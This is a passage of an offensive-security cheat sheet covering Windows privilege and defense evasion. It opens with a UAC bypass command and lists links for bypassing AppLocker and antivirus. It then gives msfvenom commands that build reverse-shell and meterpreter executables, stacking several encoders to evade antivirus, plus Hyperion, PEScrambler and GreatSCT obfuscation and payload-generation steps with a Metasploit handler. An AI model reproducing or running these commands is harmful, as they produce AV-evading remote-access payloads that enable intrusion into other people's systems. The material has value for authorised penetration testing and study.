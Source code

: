 ```
PS > cmd /c C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

* [egre55.github.io/system-properties-uac-bypass](https://egre55.github.io/system-properties-uac-bypass)
* [www.youtube.com/watch?v=krC5j1Ab44I&t=3570s](https://www.youtube.com/watch?v=krC5j1Ab44I&t=3570s)




## AppLocker Bypass

* [github.com/api0cradle/UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList)




## AV Bypass

* [hacker.house/lab/windows-defender-bypassing-for-meterpreter/](https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/)
* [codeby.net/threads/meterpreter-snova-v-dele-100-fud-with-metasploit-5.66730/](https://codeby.net/threads/meterpreter-snova-v-dele-100-fud-with-metasploit-5.66730/)



### msfvenom

```
root@kali:$ msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -a x86 --platform win -e x86/shikata_ga_nai -i 3 -f exe -o rev.exe
root@kali:$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=1337 -e x86/shikata_ga_nai -i 9 -f raw | msfvenom --platform windows -a x86 -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 11 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 6 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 7 -k -f exe -o met.exe
```



### Veil-Evasion

Hyperion + Pescramble

```
root@kali:$ wine hyperion.exe input.exe output.exe
root@kali:$ wine PEScrambler.exe -i input.exe -o output.exe
```



### GreatSCT

Install and generate a payload:

```
root@kali:$ git clone https://github.com/GreatSCT/GreatSCT ~/tools/GreatSCT
root@kali:$ cd ~/tools/GreatSCT/setup
root@kali:$ ./setup.sh
root@kali:$ cd .. && ./GreatSCT.py
...generate a payload...
root@kali:$ ls -la /usr/share/greatsct-output/handlers/payload.{rc,xml}

root@kali:$ msfconsole -r /usr/share/greatsct-output/handlers/payload.rc
```
